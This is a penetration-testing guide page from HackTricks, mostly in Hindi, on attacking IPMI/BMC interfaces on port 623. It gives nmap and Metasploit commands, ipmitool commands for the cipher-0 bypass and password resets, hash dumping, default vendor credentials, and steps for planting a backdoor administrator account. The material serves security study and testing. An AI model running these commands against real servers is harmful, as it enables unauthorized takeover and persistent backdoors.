 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** कंप्यूटर सिस्टम के दूरस्थ प्रबंधन और निगरानी के लिए एक मानकीकृत दृष्टिकोण प्रदान करता है, जो ऑपरेटिंग सिस्टम या पावर स्थिति से स्वतंत्र है। यह तकनीक सिस्टम प्रशासकों को दूरस्थ रूप से सिस्टम प्रबंधित करने की अनुमति देती है, यहां तक कि जब वे बंद या असंवेदनशील होते हैं, और यह विशेष रूप से उपयोगी है:

- प्री-ओएस बूट कॉन्फ़िगरेशन
- पावर-ऑफ प्रबंधन
- सिस्टम विफलताओं से पुनर्प्राप्ति

IPMI तापमान, वोल्टेज, फैन स्पीड और पावर सप्लाई की निगरानी करने में सक्षम है, साथ ही इन्वेंटरी जानकारी प्रदान करता है, हार्डवेयर लॉग की समीक्षा करता है, और SNMP के माध्यम से अलर्ट भेजता है। इसके संचालन के लिए एक पावर स्रोत और एक LAN कनेक्शन आवश्यक हैं।

इंटेल द्वारा 1998 में पेश किए जाने के बाद से, IPMI को कई विक्रेताओं द्वारा समर्थित किया गया है, जो दूरस्थ प्रबंधन क्षमताओं को बढ़ाता है, विशेष रूप से संस्करण 2.0 के LAN पर सीरियल के समर्थन के साथ। मुख्य घटक शामिल हैं:

- **बेसबोर्ड प्रबंधन नियंत्रक (BMC):** IPMI संचालन के लिए मुख्य माइक्रो-कंट्रोलर।
- **संचार बस और इंटरफेस:** आंतरिक और बाहरी संचार के लिए, जिसमें ICMB, IPMB, और स्थानीय और नेटवर्क कनेक्शनों के लिए विभिन्न इंटरफेस शामिल हैं।
- **IPMI मेमोरी:** लॉग और डेटा संग्रहीत करने के लिए।

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**डिफ़ॉल्ट पोर्ट**: 623/UDP/TCP (यह आमतौर पर UDP पर होता है लेकिन यह TCP पर भी चल सकता है)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
आप **संस्करण** का **पहचान** कर सकते हैं:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

IPMI 2.0 के क्षेत्र में, Dan Farmer द्वारा एक महत्वपूर्ण सुरक्षा दोष का पता लगाया गया, जो **cipher type 0** के माध्यम से एक कमजोरी को उजागर करता है। यह कमजोरी, जिसका विस्तृत विवरण [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html) पर उपलब्ध है, किसी भी पासवर्ड के साथ अनधिकृत पहुंच की अनुमति देती है यदि एक मान्य उपयोगकर्ता को लक्षित किया जाए। यह कमजोरी HP, Dell, और Supermicro जैसे निर्माताओं के विभिन्न BMCs में पाई गई, जो सभी IPMI 2.0 कार्यान्वयन में एक व्यापक समस्या का सुझाव देती है।

### **IPMI Authentication Bypass via Cipher 0**

इस दोष का पता लगाने के लिए, निम्नलिखित Metasploit सहायक स्कैनर का उपयोग किया जा सकता है:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
इस दोष का शोषण `ipmitool` के साथ किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है, जो उपयोगकर्ता पासवर्ड की सूची बनाने और संशोधित करने की अनुमति देता है:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP प्रमाणीकरण दूरस्थ पासवर्ड हैश पुनर्प्राप्ति**

यह भेद्यता किसी भी मौजूदा उपयोगकर्ता नाम के लिए नमकीन हैश किए गए पासवर्ड (MD5 और SHA1) की पुनर्प्राप्ति की अनुमति देती है। इस भेद्यता का परीक्षण करने के लिए, Metasploit एक मॉड्यूल प्रदान करता है:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI गुमनाम प्रमाणीकरण**

कई BMCs में एक डिफ़ॉल्ट कॉन्फ़िगरेशन "गुमनाम" पहुँच की अनुमति देता है, जिसे शून्य उपयोगकर्ता नाम और पासवर्ड स्ट्रिंग द्वारा पहचाना जाता है। इस कॉन्फ़िगरेशन का उपयोग `ipmitool` का उपयोग करके नामित उपयोगकर्ता खातों के पासवर्ड को रीसेट करने के लिए किया जा सकता है:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI स्पष्ट-पाठ पासवर्ड**

IPMI 2.0 में एक महत्वपूर्ण डिज़ाइन विकल्प BMCs के भीतर प्रमाणीकरण उद्देश्यों के लिए स्पष्ट-पाठ पासवर्डों के भंडारण की आवश्यकता करता है। Supermicro द्वारा इन पासवर्डों को `/nv/PSBlock` या `/nv/PSStore` जैसे स्थानों में संग्रहीत करने से महत्वपूर्ण सुरक्षा चिंताएँ उठती हैं:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Supermicro के IPMI फर्मवेयर में UPnP SSDP श्रोता का समावेश, विशेष रूप से UDP पोर्ट 1900 पर, एक गंभीर सुरक्षा जोखिम प्रस्तुत करता है। UPnP उपकरणों के लिए Intel SDK संस्करण 1.3.1 में कमजोरियों, जैसा कि [Rapid7 के खुलासे](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) में विस्तृत किया गया है, BMC तक रूट पहुंच की अनुमति देती हैं:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP अपने **Integrated Lights Out (iLO)** उत्पाद के लिए डिफ़ॉल्ट पासवर्ड को निर्माण के दौरान यादृच्छिक बनाता है। यह प्रथा अन्य निर्माताओं के विपरीत है, जो आमतौर पर **स्थिर डिफ़ॉल्ट क्रेडेंशियल्स** का उपयोग करते हैं। विभिन्न उत्पादों के लिए डिफ़ॉल्ट उपयोगकर्ता नाम और पासवर्ड का सारांश निम्नलिखित है:

- **HP Integrated Lights Out (iLO)** एक **फैक्टरी यादृच्छिक 8-चरित्र स्ट्रिंग** को अपने डिफ़ॉल्ट पासवर्ड के रूप में उपयोग करता है, जो उच्च सुरक्षा स्तर को दर्शाता है।
- **Dell's iDRAC, IBM's IMM**, और **Fujitsu's Integrated Remote Management Controller** जैसे उत्पाद आसानी से अनुमानित पासवर्ड का उपयोग करते हैं जैसे "calvin", "PASSW0RD" (शून्य के साथ), और "admin" क्रमशः।
- इसी तरह, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, और **ASUS iKVM BMC** भी सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जिनमें "ADMIN", "changeme", और "admin" उनके पासवर्ड के रूप में कार्य करते हैं।

## Accessing the Host via BMC

Baseboard Management Controller (BMC) तक प्रशासनिक पहुंच होस्ट के ऑपरेटिंग सिस्टम तक पहुंचने के लिए विभिन्न मार्ग खोलती है। एक सीधा दृष्टिकोण BMC के कीबोर्ड, वीडियो, माउस (KVM) कार्यक्षमता का लाभ उठाना है। यह या तो GRUB के माध्यम से रूट शेल पर होस्ट को पुनरारंभ करके (`init=/bin/sh`) या एक वर्चुअल CD-ROM से बूट करके किया जा सकता है जिसे एक बचाव डिस्क के रूप में सेट किया गया है। ऐसे तरीके होस्ट के डिस्क में सीधे हेरफेर की अनुमति देते हैं, जिसमें बैकडोर डालना, डेटा निकालना, या सुरक्षा मूल्यांकन के लिए आवश्यक कोई भी कार्रवाई शामिल है। हालाँकि, इसके लिए होस्ट को पुनरारंभ करना आवश्यक है, जो एक महत्वपूर्ण कमी है। बिना पुनरारंभ किए, चल रहे होस्ट तक पहुंचना अधिक जटिल है और होस्ट की कॉन्फ़िगरेशन के साथ भिन्न होता है। यदि होस्ट का भौतिक या अनुक्रमणीय कंसोल लॉग इन रहता है, तो इसे BMC के KVM या सीरियल-ओवर-LAN (sol) कार्यक्षमताओं के माध्यम से `ipmitool` के माध्यम से आसानी से नियंत्रित किया जा सकता है। साझा हार्डवेयर संसाधनों, जैसे i2c बस और सुपर I/O चिप के शोषण की खोज एक ऐसा क्षेत्र है जिसे आगे की जांच की आवश्यकता है।

## Introducing Backdoors into BMC from the Host

BMC से लैस एक होस्ट को समझौता करने पर, **स्थानीय BMC इंटरफ़ेस का उपयोग एक बैकडोर उपयोगकर्ता खाता डालने के लिए किया जा सकता है**, जो सर्वर पर एक स्थायी उपस्थिति बनाता है। इस हमले के लिए **`ipmitool`** का समझौता किए गए होस्ट पर होना और BMC ड्राइवर समर्थन को सक्रिय करना आवश्यक है। निम्नलिखित कमांड दर्शाते हैं कि कैसे एक नया उपयोगकर्ता खाता होस्ट के स्थानीय इंटरफ़ेस का उपयोग करके BMC में इंजेक्ट किया जा सकता है, जो प्रमाणीकरण की आवश्यकता को बायपास करता है। यह तकनीक लिनक्स, विंडोज, BSD, और यहां तक कि DOS सहित विभिन्न ऑपरेटिंग सिस्टम पर लागू होती है।
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**मोबाइल सुरक्षा** में अपनी विशेषज्ञता को 8kSec अकादमी के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
